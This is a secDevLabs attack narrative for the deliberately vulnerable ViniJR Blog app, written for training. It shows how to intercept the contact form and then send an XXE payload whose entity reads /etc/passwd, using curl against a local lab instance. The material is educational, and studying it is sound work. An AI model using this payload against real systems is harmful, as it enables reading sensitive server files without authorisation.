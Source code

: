 # Attack Narrative - ViniJR Blog (XXE)

The main goal of this documentation is to describe how a malicious user could exploit a XXE vulnerability intentionally installed on ViniJR Blog from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a4/vinijr-blog) yet, you should check them before reading this narrative.

----

## 👀

After reviewing the inputs from the app, it is possible to identify that the section "GET IN TOUCH" allows users send messages to the server, as shown in the following picture:

<img src="attack-1.png" align="center"/>

Using [Burp Suite](https://portswigger.net/burp) proxy to intercept this request (POST to contact.php) reveals that the message is being build using an XML (if you need any help setting up your proxy you should check this [guide](https://support.portswigger.net/customer/portal/articles/1783066-configuring-firefox-to-work-with-burp)):

<img src="attack-2.png" align="center"/>



To replicate this POST using [curl](https://curl.haxx.se/), create the following file `payload.xml`:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>RAFAEL</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And run:

```sh
curl -d @payload.xml localhost:10080/contact.php ; echo
```

By checking the source code of the [file](../app/contact.php), it is possible to see how this XML is loaded on the server side:

<img src="attack-3.png" align="center"/>

## 🔥

As no validation is being used to avoid [ENTITIES](https://www.w3schools.com/xml/xml_dtd_entities.asp) being sent to the PHP file, an attacker could create the following `evilxml.xml` to perform a XXE:

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<contact>
<name>&xxe;</name>
<email>RAFAEL@EXAMPLE.com</email>
<subject>YOU ROCK</subject>
<message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And, as the following picture shows, it is possible to realize that the attack succeeds and sensitive information is retrieved from the server that is hosting the vulnerable app:

```sh
curl -d @evilxml.xml localhost:10080/contact.php ; echo
```

<img src="attack-4.png" align="center"/>
